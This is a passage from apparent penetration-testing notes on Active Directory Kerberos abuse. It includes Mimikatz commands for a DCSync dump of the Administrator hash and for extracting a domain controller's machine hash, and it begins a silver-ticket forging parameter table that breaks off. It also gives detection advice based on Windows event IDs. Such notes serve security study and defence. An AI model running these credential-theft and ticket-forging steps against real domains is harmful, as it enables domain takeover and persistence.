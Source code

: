 In order to execute commands we can do a **dcsync attack** and once obtained the hash do a over-pass-the-hash.

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:corp\Administrator"'
```
> **Note** DCSync attack can be done on any machine even if it is not part of the domain.

## Mitigation

While creating a golden ticket the attacker creates some events in logs:

* Event ID **4624**: Account Logon
* Event ID **4672**: Admin Logon

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```

TGT lifetime is not logged in `4769` event, however it can be correlated when a `4769` event appears without a prior `4768` alert. It's not possible to request a TGS without a TGT, and if there is no record of a TGT being issued, we can assume that has been crafted offline.

Other trick that defenders do is alert on `4769` for sensitive users such as default administrator account.

[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

[https://book.hacktricks.xyz/windows/active-directory-methodology/golden-ticket](https://book.hacktricks.xyz/windows/active-directory-methodology/golden-ticket)

# Silver Ticket

A Silver Ticket is a valid **TGS** which is encrypted and signed by the NTLM hash of the service account like the Machine account hash (DC01$). The TGS will allow access only to the service requested.

This technique is a reasonable persistence because the ticket would be valid for 30 days in computer accounts (default). We are going to target the domain controller machine account. First we need the DC machine account hash.

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dc01
```
After that we need to create the ticket.

* **Invoke-Mimikatz**


|                 **Parameter**                 |                                      **Description**                                      |
|:---------------------------------------------:|:-----------------------------------------------------------------------------------------:|
| /user:Administrator                           | Username fot which TGS is generated                                                       |
| /domain:corp.local                            | Domain FQDN                                                                               |
| /sid:S-1-5-21-268341927-4156873456-1784235843 | Domain SID                                                                                |
| /target:dc.corp.local                         | Target server FQDN                                                                        |
| /service:CIFS                                 | The SPN name of the service for which TGS will be created                                 |
| /rc4:6f5b5acaf6744d567ac55e67ff22             | NTLM(RC4) hash of the machine account (DC01$). Use /aes128 and /aes256 for using AES keys |
| /id:500                                       | User RID (default 500)                                                                    |
| /groups:513                                   | Group ID (default 512,513,518,519,520)                                                    |
